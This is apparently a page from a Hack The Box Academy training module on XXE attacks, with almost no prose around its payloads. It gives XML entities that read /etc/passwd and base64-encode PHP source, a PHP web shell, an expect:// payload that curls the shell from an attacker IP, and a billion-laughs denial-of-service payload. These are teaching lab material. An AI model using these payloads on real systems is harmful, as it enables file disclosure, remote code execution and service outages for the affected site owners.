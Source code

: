 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/134/section/1204
// Platform Version: V1
// Module ID: 134
// Module Name: Web Attacks
// Module Difficulty: Medium
// Section ID: 1204
// Section Title: Local File Disclosure
// Page Title: Web Attacks
// Page Number: 14
-->

# Local File Disclosure

**Module Name:** Web Attacks **Page Number:** 14

#### WEB ATTACKS

# Local File Disclosure

## Identifying

``` xml
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

## Reading Sensitive Files

``` xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

## Reading Source Code

``` xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

## Remote Code Execution with XXE

``` shell-session
[!bash!]$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
[!bash!]$ sudo python3 -m http.server 80
```

``` xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

## Other XXE Attacks

``` xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```

# 

# 

#### Questions

####